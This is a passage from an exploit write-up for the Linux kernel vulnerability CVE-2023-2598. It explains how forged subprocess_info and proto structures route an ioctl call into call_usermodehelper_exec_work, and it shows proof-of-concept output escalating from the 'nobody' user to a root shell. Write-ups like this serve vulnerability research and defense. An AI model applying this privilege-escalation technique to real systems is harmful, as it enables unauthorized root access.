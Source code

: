 ```
retval             <-> irrelevant
*init              <-> set to 0
*cleanup           <-> set to 0
data               <-> irrelevant
```
We must write `work.func` to hold `call_usermodehelper_exec_work`. As you remember we wrote the value of `proto->ioctl` to be `call_usermodehelper_exec`. The function `call_usermodehelper_exec` is responsible for queuing up our deferred work while `call_usermodehelper_exec_work` is called to handle the deferred work, when it comes time for it - so the function `call_usermodehelper_exec_work` is the one responsible for spawning our new process.

We write `path` to remain the same, the address of our `proto` structure.

After this is done, making an `ioctl` call to our socket to spawn our new shell is all that is left :)

### Proof of Concept <a name="poc"></a>
Due to the astonishing primitive that this vulnerability gives us, the proof of concept is *extremely* reliable by nature.
```
$ id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
$ ./exploit
[*] CVE-2023-2598 Exploit by anatomic (@YordanStoychev)
memfd: 0, page: 0 at virt_addr: 0x4247000000, reading 266240000 bytes
memfd: 0, page: 500 at virt_addr: 0x42470001f4, reading 266240000 bytes
memfd: 0, page: 1000 at virt_addr: 0x42470003e8, reading 266240000 bytes
memfd: 0, page: 1500 at virt_addr: 0x42470005dc, reading 266240000 bytes
memfd: 0, page: 2000 at virt_addr: 0x42470007d0, reading 266240000 bytes
memfd: 0, page: 2500 at virt_addr: 0x42470009c4, reading 266240000 bytes
memfd: 0, page: 3000 at virt_addr: 0x4247000bb8, reading 266240000 bytes
memfd: 0, page: 3500 at virt_addr: 0x4247000dac, reading 266240000 bytes
memfd: 0, page: 4000 at virt_addr: 0x4247000fa0, reading 266240000 bytes
memfd: 0, page: 4500 at virt_addr: 0x4247001194, reading 266240000 bytes
memfd: 0, page: 5000 at virt_addr: 0x4247001388, reading 266240000 bytes
memfd: 0, page: 5500 at virt_addr: 0x424700157c, reading 266240000 bytes
memfd: 0, page: 6000 at virt_addr: 0x4247001770, reading 266240000 bytes
memfd: 0, page: 6500 at virt_addr: 0x4247001964, reading 266240000 bytes
memfd: 0, page: 7000 at virt_addr: 0x4247001b58, reading 266240000 bytes
memfd: 0, page: 7500 at virt_addr: 0x4247001d4c, reading 266240000 bytes
memfd: 0, page: 8000 at virt_addr: 0x4247001f40, reading 266240000 bytes
memfd: 0, page: 8500 at virt_addr: 0x4247002134, reading 266240000 bytes
memfd: 0, page: 9000 at virt_addr: 0x4247002328, reading 266240000 bytes
memfd: 0, page: 9500 at virt_addr: 0x424700251c, reading 266240000 bytes
memfd: 0, page: 10000 at virt_addr: 0x4247002710, reading 266240000 bytes
memfd: 0, page: 10500 at virt_addr: 0x4247002904, reading 266240000 bytes
memfd: 0, page: 11000 at virt_addr: 0x4247002af8, reading 266240000 bytes
memfd: 0, page: 11500 at virt_addr: 0x4247002cec, reading 266240000 bytes
memfd: 0, page: 12000 at virt_addr: 0x4247002ee0, reading 266240000 bytes
memfd: 0, page: 12500 at virt_addr: 0x42470030d4, reading 266240000 bytes
Found value 0xdeadbeefdeadbeef at offset 0x21c8
Socket object starts at offset 0x2000
kaslr_leak: 0xffffffffb09503f0
kaslr_base: 0xffffffffafe00000
found socket is socket number 1950
our struct sock object starts at 0xffff9817ff400000
fake proto structure set up at 0xffff9817ff400578
args at 0xffff9817ff400728
argv at 0xffff9817ff400750
subprocess_info set up at beginning of sock at 0xffff9817ff400000
calling ioctl...
/bin/sh: can't access tty; job control turned off
/ # id
uid=0(root) gid=0(root)
```